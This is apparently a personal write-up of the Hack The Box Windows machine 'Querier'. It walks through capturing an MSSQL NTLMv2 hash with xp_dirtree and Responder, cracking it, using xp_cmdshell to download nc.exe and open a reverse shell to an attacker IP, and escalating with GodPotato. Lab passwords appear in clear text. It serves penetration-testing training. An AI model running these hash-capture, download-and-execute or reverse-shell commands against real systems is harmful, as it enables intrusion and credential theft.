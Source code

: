 ```yaml
---
title: "Querier - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Querier
![](https://kar0nx.github.io/assets/images/writeup/9fe0cda48876d1e8772de183c9546f78.png)
## Reconnaissance

IP: 10.10.10.125
## NMAP

```
nmap -T4 -p- -A 10.10.10.125
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 11:59 UTC
Nmap scan report for 10.10.10.125
Host is up (0.031s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-09-08T16:06:07
|_Not valid after:  2055-09-08T16:06:07
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-09-09T12:01:09+00:00; -3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=9/9%OT=135%CT=1%CU=36843%PV=Y%DS=2%DC=T%G=Y%TM=68C0170
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=104%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=102%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=103%GCD=1%ISR
OS:=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=2%ISR=109%TI=I%CI=I%II=I%SS
OS:=S%TS=U)SEQ(SP=108%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M552NW8
OS:NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)WIN(
OS:W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF
OS:%O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R
OS:=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)
OS:U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
OS:FI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-09T12:01:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   29.94 ms 10.10.14.1
2   30.35 ms 10.10.10.125

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.40 seconds

```

## SMB

Starting with smb

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909140037.png)

don't know this extension but after using strings I spot it is sth like zip for exel files, so I started by using oletools (great python package for microsoft files)

```
olevba Currency\ Volume\ Report.xlsm
```

and I found database username and password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909140857.png)
## MsSQL

let's try this credentials to connect to mssql

```
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
```

Cannot find vector cmdshell not available so watched writeup and found this blog post:
https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478

So I start responder and tried to capture mssql ntmlv2 hash using this poc

```
responder -I tun0 -A
```

```
exec master.sys.xp_dirtree '\\10.10.14.8\shares\es',1, 1
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909141444.png)

and I got ntlmv2 hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909141522.png)

Now attempt to crack hash

```
hashcat -m 5600 hash  /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909141743.png)

We got it 
MSSQL-SVC corporate568

## Gaining Access

Tried smb and winrm but cannot connect, so I back to mssql login with new credentials and now attempt to use cmdshell

```
impacket-mssqlclient MSSQL-SVC:'corporate568'@10.10.10.125 -windows-auth
```

```
enable_xp_cmdshell
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909142814.png)

Great we have access to cmd, let's make quick reverse shell.
I started by uploading nc to target and then revshell via nc to my kali

```
xp_cmdshell powershell -c Invoke-WebRequest "http://10.10.14.8/nc.exe" -OutFile "C:\Windows\temp\nc.exe"

xp_cmdshell C:\Windows\temp\nc.exe 10.10.14.8 443 -e cmd.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909145958.png)

and we got reverse shell, now grab your flag

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909150044.png)

## Privilege Escalation

Before running winpeas I always start with whoami /priv and this time I was lucky

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909150241.png)

SeImpersonatePrivilege start with GodPotato
Download it to machine

```
Invoke-WebRequest "http://10.10.14.8:81/GodPotato.exe" -OutFile "C:\Users\mssql-svc\desktop\god.exe"
```

And run, I used same rev shell as before ( also you can add users to administrators group, create new user, etc)

```
.\god.exe -cmd "C:\Windows\temp\nc.exe 10.10.14.8 443 -e cmd.exe"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909151751.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909151814.png)

We have system shell, now grab root.txt

## Second and third method

```
Invoke-WebRequest "http://10.10.14.8/winPEASany.exe" -OutFile "C:\Users\mssql-svc\desktop\win.exe"
```

Insecure binpath
and 
gppcredentials 

both shown by winpeas